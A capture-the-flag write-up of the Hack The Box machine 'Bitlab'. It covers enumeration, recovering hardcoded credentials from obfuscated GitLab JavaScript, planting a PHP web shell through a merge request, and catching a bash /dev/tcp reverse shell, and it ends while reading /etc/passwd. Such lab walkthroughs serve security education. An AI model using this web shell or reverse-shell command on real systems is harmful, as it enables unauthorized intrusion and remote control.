








---
search:
  exclude: true
---
# Bitlab Writeup

## Introduction :

Bitlab is a Medium linux box released back in September 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    
      [ 10.10.14.11/23 ] [ /dev/pts/2 ] [~/_HTB]
      → sudo nmap -vvv -sTU -p- 10.10.10.114 --max-retries 0 -Pn --min-rate=500 | grep Discovered
      [sudo] password for nothing:
      Discovered open port 80/tcp on 10.10.10.114
      Discovered open port 22/tcp on 10.10.10.114
    
      [ 10.10.14.11/23 ] [ /dev/pts/2 ] [~/_HTB]
      → nmap -sCV -p22,80 10.10.10.114
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-29 17:43 BST
      Nmap scan report for 10.10.10.114
      Host is up (0.091s latency).
    
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
      |   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
      |_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
      80/tcp open  http    nginx
      | http-robots.txt: 55 disallowed entries (15 shown)
      | / /autocomplete/users /search /api /admin /profile
      | /dashboard /projects/new /groups/new /groups/*/edit /users /help
      |_/s/ /snippets/new /snippets/*/edit
      | http-title: Sign in \xC2\xB7 GitLab
      |_Requested resource was http://10.10.10.114/users/sign_in
      |_http-trane-info: Problem with XML parsing of /evox/about
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 12.18 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 running nginx so let's check it out:

So here we can see a gitlab login page which is essentially a way to manage git repos in a more private manner than using a standard github repository. However our nmap scan also picked up some interesting stuff hinting us towards robots.txt so we check it out:
    
    
    
      [ 10.10.14.11/23 ] [ /dev/pts/2 ] [~/_HTB]
      → curl -sk http://10.10.10.114/robots.txt
      # See http://www.robotstxt.org/robotstxt.html for documentation on how to use the robots.txt file
      #
      # To ban all spiders from the entire site uncomment the next two lines:
      # User-Agent: *
      # Disallow: /
    
      # Add a 1 second delay between successive requests to the same server, limits resources used by crawler
      # Only some crawlers respect this setting, e.g. Googlebot does not
      # Crawl-delay: 1
    
      # Based on details in https://gitlab.com/gitlab-org/gitlab-ce/blob/master/config/routes.rb, https://gitlab.com/gitlab-org/gitlab-ce/blob/master/spec/routing, and using application
      User-Agent: *
      Disallow: /autocomplete/users
      Disallow: /search
      Disallow: /api
      Disallow: /admin
      Disallow: /profile
      Disallow: /dashboard
      Disallow: /projects/new
      Disallow: /groups/new
      Disallow: /groups/*/edit
      Disallow: /users
      Disallow: /help
      # Only specifically allow the Sign In page to avoid very ugly search results
      Allow: /users/sign_in
    
      # Global snippets
      User-Agent: *
      Disallow: /s/
      Disallow: /snippets/new
      Disallow: /snippets/*/edit
      Disallow: /snippets/*/raw
    
      # Project details
      User-Agent: *
      Disallow: /*/*.git
      Disallow: /*/*/fork/new
      Disallow: /*/*/repository/archive*
      Disallow: /*/*/activity
      Disallow: /*/*/new
      Disallow: /*/*/edit
      Disallow: /*/*/raw
      Disallow: /*/*/blame
      Disallow: /*/*/commits/*/*
      Disallow: /*/*/commit/*.patch
      Disallow: /*/*/commit/*.diff
      Disallow: /*/*/compare
      Disallow: /*/*/branches/new
      Disallow: /*/*/tags/new
      Disallow: /*/*/network
      Disallow: /*/*/graphs
      Disallow: /*/*/milestones/new
      Disallow: /*/*/milestones/*/edit
      Disallow: /*/*/issues/new
      Disallow: /*/*/issues/*/edit
      Disallow: /*/*/merge_requests/new
      Disallow: /*/*/merge_requests/*.patch
      Disallow: /*/*/merge_requests/*.diff
      Disallow: /*/*/merge_requests/*/edit
      Disallow: /*/*/merge_requests/*/diffs
      Disallow: /*/*/project_members/import
      Disallow: /*/*/labels/new
      Disallow: /*/*/labels/*/edit
      Disallow: /*/*/wikis/*/edit
      Disallow: /*/*/snippets/new
      Disallow: /*/*/snippets/*/edit
      Disallow: /*/*/snippets/*/raw
      Disallow: /*/*/deploy_keys
      Disallow: /*/*/hooks
      Disallow: /*/*/services
      Disallow: /*/*/protected_branches
      Disallow: /*/*/uploads/
      Disallow: /*/-/group_members
      Disallow: /*/project_members
    

Unfortunately this is most likely a rabbithole so instead let's view the timestamps of any file hosted on this nginx instance, using wget and exiftool:
    
    
    
      [ 10.10.14.11/23 ] [ /dev/pts/2 ] [~/_HTB]
      → curl -sk http://10.10.10.114
      You are being [redirected](http://10.10.10.114/users/sign_in).
      [ 10.10.14.11/23 ] [ /dev/pts/2 ] [~/_HTB]
      → curl -sk http://10.10.10.114/users/sign_in | grep href
      
      
      
      
      
      
      
      
      Sign in
      [Forgot your password?](/users/password/new)
      [Explore](/explore)
      [Help](/help)
      [About GitLab](https://about.gitlab.com/)
    
      [ 10.10.14.11/23 ] [ /dev/pts/2 ] [~/_HTB]
      → wget http://10.10.10.114/assets/logo-d36b5212042cebc89b96df4bf6ac24e43db316143e89926c0db839ff694d2de4.svg
      --2020-04-29 17:52:22--  http://10.10.10.114/assets/logo-d36b5212042cebc89b96df4bf6ac24e43db316143e89926c0db839ff694d2de4.svg
      Connecting to 10.10.10.114:80... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 2475 (2.4K) [image/svg+xml]
      Saving to: ‘logo-d36b5212042cebc89b96df4bf6ac24e43db316143e89926c0db839ff694d2de4.svg’
    
      logo-d36b5212042cebc89b96df4bf6ac24e43d 100%[===============================================================================>]   2.42K  --.-KB/s    in 0s
    
      2020-04-29 17:52:22 (66.5 MB/s) - ‘logo-d36b5212042cebc89b96df4bf6ac24e43db316143e89926c0db839ff694d2de4.svg’ saved [2475/2475]
    
    
      [ 10.10.14.11/23 ] [ /dev/pts/2 ] [~/_HTB]
      → exiftool logo-d36b5212042cebc89b96df4bf6ac24e43db316143e89926c0db839ff694d2de4.svg
      -bash: exiftool: command not found
    
      [ 10.10.14.11/23 ] [ /dev/pts/2 ] [~/_HTB]
      → exiftool logo-d36b5212042cebc89b96df4bf6ac24e43db316143e89926c0db839ff694d2de4.svg
      ExifTool Version Number         : 11.94
      File Name                       : logo-d36b5212042cebc89b96df4bf6ac24e43db316143e89926c0db839ff694d2de4.svg
      Directory                       : .
      File Size                       : 2.4 kB
      File Modification Date/Time     : 2018:12:29 10:18:08+00:00
      File Access Date/Time           : 2020:04:29 17:52:22+01:00
      File Inode Change Date/Time     : 2020:04:29 17:52:22+01:00
      File Permissions                : rw-r--r--
      File Type                       : SVG
      File Type Extension             : svg
      MIME Type                       : image/svg+xml
      Image Width                     : 210
      Image Height                    : 210
      View Box                        : 0 0 210 210
      SVG Version                     : 1.1
      Xmlns                           : http://www.w3.org/2000/svg
      Title                           : Slice 1
      Desc                            : Created with Sketch.
      Image Size                      : 210x210
      Megapixels                      : 0.044
    

And here we see that this file has a file modification date of december 2018 so if we were to look for public exploits, we would need to look for exploits that have been published after this date for them to be relevant on this box. One sidenote is, that you should use wget in this instance instead of downloading it through firefox because firefox will invariably timestamp the file you download. So in order to enumerate the webserver further we'll use gobuster:
    
    
      [ 10.10.14.11/23 ] [ /dev/pts/3 ] [~/_HTB/Bitlab]
      → gobuster dir -u http://10.10.10.114 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -t 50
      ===============================================================
      Gobuster v3.0.1
      by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
      ===============================================================
      [+] Url:            http://10.10.10.114
      [+] Threads:        50
      [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
      [+] Status codes:   200,204,301,302,307,401,403
      [+] User Agent:     gobuster/3.0.1
      [+] Timeout:        10s
      ===============================================================
      2020/04/29 17:58:44 Starting gobuster
      ===============================================================
      Error: the server returns a status code that matches the provided options for non existing urls. http://10.10.10.114/ebf2edd7-9c49-43ec-8782-b6f64e0293e2 => 302. To force processing of Wildcard responses, specify the '--wildcard' switch
    
    

Here we see that gobuster hits a 302 status code which is an [URL redirection status code](https://en.wikipedia.org/wiki/HTTP_302) The problem is that gobuster has no way of detecting this so we'll use burpsuite instead:

Send it over to the repeater: 

And there we can see that we are being redirected if we try to reach a page that doesn't exist so from here we have to specify which status codes we want from our gobuster scan using the -s scan:
    
    
    
    
      [ 10.10.14.11/23 ] [ /dev/pts/3 ] [~/_HTB/Bitlab]
      → gobuster dir -u http://10.10.10.114 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -t 50 -s  200,204,301,307,401,403
      ===============================================================
      Gobuster v3.0.1
      by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
      ===============================================================
      [+] Url:            http://10.10.10.114
      [+] Threads:        50
      [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
      [+] Status codes:   200,204,301,307,401,403
      [+] User Agent:     gobuster/3.0.1
      [+] Timeout:        10s
      ===============================================================
      2020/04/29 18:26:47 Starting gobuster
      ===============================================================
      /help (Status: 301)
      /profile (Status: 301)
      /search (Status: 200)
      /public (Status: 200)
      /root (Status: 200)
      /explore (Status: 200)
      /ci (Status: 301)
      Progress: 5257 / 220561 (2.38%)
    

Almost immediately gobuster finds a few interesting webpages, the first one we'll check here is /help:

Here we see something interesting which is that the Gitlab Login link is in fact just a bunch of javascript , so we can copy the link : 
    
    
      javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
    

Which seems to be some javascript obfuscated code, so we can use some [javascript prettifier](https://beautifier.io) to make it readable, but we can do the same from inside our terminal using vim's :%s function 
    
    
      :%s/;/\r/g
    
    

This is so in order to change the \r into newlines: 

Then we'll use the firefox developer console to de-obfuscate this javascript:

So here we see some credentials: clave:11des0081x, now we can obviously de-obfuscate the other 2 lines with this deobfuscated javascript array which contains all the info we need:
    
    
      function(){
              0: "value"
              1: "user_login"
              2: "getElementById"
              3: "clave"
              4: "user_password"
              5: "11des0081x"
    
              document[getElementById](user_login)[value]= "clave"
              document[getElementById](user_password)[value]= "11des0081x"
       })()
    

These are basically some hardcoded javascript credentials, this is sadly a technique used by many companies to this day which, if you de-obfuscate their javascript code you may reveal some sensitive information which should simply not happen, obviously we can see the values 1 and 4 in the sign_in page:

The idea behind this javascript is that whoever did this could simply bookmark it and it would basically autocomplete for them. Obviously just purely obfuscating such javascript is not going to make it secure in any sense, so let's login : 

So once logged in we get a dashboard but on a side note, we get a particular cookie, and if we look at gobuster's options, we see that we can specify a cookie string: 
    
    
    
      [ 10.10.14.11/23 ] [ /dev/pts/2 ] [~/_HTB/Bitlab]
      → gobuster dir --help | grep cookie
        -c, --cookies string                Cookies to use for the requests
    

` 

So we take the cookie from here (F12 > Storage > cookies > _gitlab_session) and give it to gobuster: 
    
    
      gitlab_session=f06332b0a90aebcab0245f5e0e4de0e8
    

And now with this authenticated cookie, gobuster is able to find some more files,
    
    
      [ 10.10.14.11/23 ] [ /dev/pts/4 ] [~/_HTB/Bitlab]
      → gobuster dir -u http://10.10.10.114 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -t 50 -s  200,204,301,307,401,403 -c "_gitlab_session=f06332b0a90aebcab0245f5e0e4de0e8"
      ===============================================================
      Gobuster v3.0.1
      by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
      ===============================================================
      [+] Url:            http://10.10.10.114
      [+] Threads:        50
      [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
      [+] Status codes:   200,204,301,307,401,403
      [+] Cookies:        _gitlab_session=f06332b0a90aebcab0245f5e0e4de0e8
      [+] User Agent:     gobuster/3.0.1
      [+] Timeout:        10s
      ===============================================================
      2020/04/29 19:14:19 Starting gobuster
      ===============================================================
      /help (Status: 301)
      /profile (Status: 301)
      /search (Status: 200)
      /public (Status: 200)
    

so looking at the dashboard: 

Heading over there, settings are just a broken page, however when we head over to the profile page we see the timestamp we got earlier using wget and exiftool: 

Heading over to snippets, we see some postgresql database credentials 

So we could use those credentials, but first let's head over to the administrator profile gitlab webpage and we could potentially check it's history for interesting commits but there's not so much to see here.

So let's take a look at the other gitlab user which is "deployer" which has an interesting index.php file:

This basically tells us that a potential www-data user can execute a git pull command as the root user on this index.php And we also know that git has got a bunch of POST hook commands which allows you to do git push, merge, clone etc. So since we are logged in as the "clave" user we can create a new branch, and place our reverse php shell there, and hopefully get a shell onto the box, the problem is that we don't know which php commands are blacklisted most importantly the system command, the file_get_contents commands, the exec(); commands and so on. so we want to add a simple echo statement at the beginning to make sure our php file is being executed:
    
    
    <****?php
      echo "nihilist";
      system($_REQUEST['pr0metheus']);
    ?****>

This php file we created should get merged on the master branch as we have been hinted to do so earlier on: 

 

Merge the request to the master branch, and go there, you should see our reverse php shell there: 

So once it's uploaded we can simply try to execute commands with it : 
    
    
    
      [ 10.10.14.11/23 ] [ /dev/pts/2 ] [~/_HTB/Bitlab]
      → curl -sk http://10.10.10.114/profile/reverse.php
      nihilist  
    
      **Notice** :  Undefined index: pr0metheus in **/var/www/html/profile/reverse.php** on line **3**  
    
        
    
      **Warning** :  system(): Cannot execute a blank command in **/var/www/html/profile/reverse.php** on line **3**  
    
    
      [ 10.10.14.11/23 ] [ /dev/pts/2 ] [~/_HTB/Bitlab]
      → curl -sk http://10.10.10.114/profile/reverse.php?pr0metheus=id
      nihilistuid=33(www-data) gid=33(www-data) groups=33(www-data)
    
    

So here we can see that we have some Remote Code Execution as www-data, 
    
    
    
      [ 10.10.14.11/23 ] [ /dev/pts/2 ] [~/_HTB/Bitlab]
      → curl -sk http://10.10.10.114/profile/reverse.php?pr0metheus=bash -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'
      nihilist
    

Now here the problem is that even though with a ncat listener , we don't get a reverse shell connection, that is because we are doing a GET request with curl, so instead we'll go for the POST request alternative: 

Once we interecepted our request and sent it to the repeater (CTRL+R) and went there (CTRL+SHIFT+R) we'll then change the request to a post request, (right click > "change request method") and paste a bash reverse shell one liner as our pr0metheus variable which gives us the following request: 
    
    
      POST /profile/reverse.php HTTP/1.1
      Host: 10.10.10.114
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate
      DNT: 1
      Connection: close
      Cookie: _gitlab_session=f06332b0a90aebcab0245f5e0e4de0e8; sidebar_collapsed=false; event_filter=all
      Upgrade-Insecure-Requests: 1
      Cache-Control: max-age=0
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 66
    
      pr0metheus=bash -c **'bash -i > & /dev/tcp/10.10.14.11/9001 0>&1'**
    

And obviously do not forget to url encode the highlighted line which is our reverse shell one liner: 

And we get a reverse shell ! Now let's upgrade it to a fully interactive reverse shell:
    
    
    
      [ 10.10.14.11/23 ] [ /dev/pts/7 ] [~]
      → nc -lvnp 9001
      listening on [any] 9001 ...
      connect to [10.10.14.11] from (UNKNOWN) [10.10.10.114] 40284
      bash: cannot set terminal process group (1107): Inappropriate ioctl for device
      bash: no job control in this shell
      www-data@bitlab:/var/www/html/profile$ which python
      which python
      /usr/bin/python
      www-data@bitlab:/var/www/html/profile$ python -c 'import pty;pty.spawn("/bin/bash")'
      www-data@bitlab:/var/www/html/profile$ ^Z
      [1]+  Stopped                 nc -lvnp 9001
    
      [ 10.10.14.11/23 ] [ /dev/pts/7 ] [~]
      → stty raw -echo
    
      [ 10.10.14.11/23 ] [ /dev/pts/7 ] [~]
      → nc -lvnp 9001
                     reset
      reset: unknown terminal type unknown
      Terminal type? ^C
      www-data@bitlab:/var/www/html/profile$ export SHELL=bash
      www-data@bitlab:/var/www/html/profile$ export TERM=xterm-256color
      www-data@bitlab:/var/www/html/profile$ l
      Display all 103 possibilities? (y or n)
      www-data@bitlab:/var/www/html/profile$ ls
      .git/          README.md      index.php
      .htaccess      developer.jpg  reverse.php
    

What we did here was: 
    
    
    -get the reverse shell connection
    -check if python was there on the box
    -spawn a tty shell using python's pty library
    -backgrounding our shell process (CTRL+Z)
    -typing "stty raw -echo"
    -typing "fg" which puts our shell process back in the foreground
    -typing in "reset"
    -responding with a CTRL+C to the unexpected "Terminal type ?" question
    -exporting both our SHELL and TERM variables
    

And from there we have our fully interactive reverse shell as www-data. 

## **Part 3 : Getting Root Access**

Now that we have our fully interactive reverse shell as www-data, we can start poking around the box some more:
    
    
    
      www-data@bitlab:/var/www/html/profile$ ls
      .git/          README.md      index.php
      .htaccess      developer.jpg  reverse.php
      www-data@bitlab:/var/www/html/profile$ cat /etc/hosts
      127.0.0.1       localhost
      127.0.1.1       bitlab  bitlab
    
      # The following lines are desirable for IPv6 capable hosts
      ::1     localhost ip6-localhost ip6-loopback
      ff02::1 ip6-allnodes
      ff02::2 ip6-allrouters
    
      www-data@bitlab:/var/www/html/profile$ cat /etc/passwd
      root:x:0:0:root:/root:/bin/bash
      daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
      bin:x:2:2:bin:/bin:/usr/sbin/nologin
      sys:x:3:3:sys:/dev:/usr/sbin/nologin
      sync:x:4:65534:sync:/bin:/bin/sync
      games:x:5:60:games:/usr/games:/usr/sbin/nologin
      man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
      lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
      mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
      news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
      uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
      proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
      www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
      backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
      list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
      irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
      gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
      nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
      systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
      systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
      syslog:x:102:106::/home/syslog:/usr/sbin/nologin
      messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
      _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
      lxd:x:105:65534::/var/lib/lxd/:/bin/false
      uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
      dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
      landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
      pollinate:x:109:1::/var/cache/pollinate:/bin/false
      statd:x:110:65534::/var/lib/nfs:/usr/sbin/nologin
      sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
      vboxadd:x:999:1::/var/run/vboxadd:/bin/false
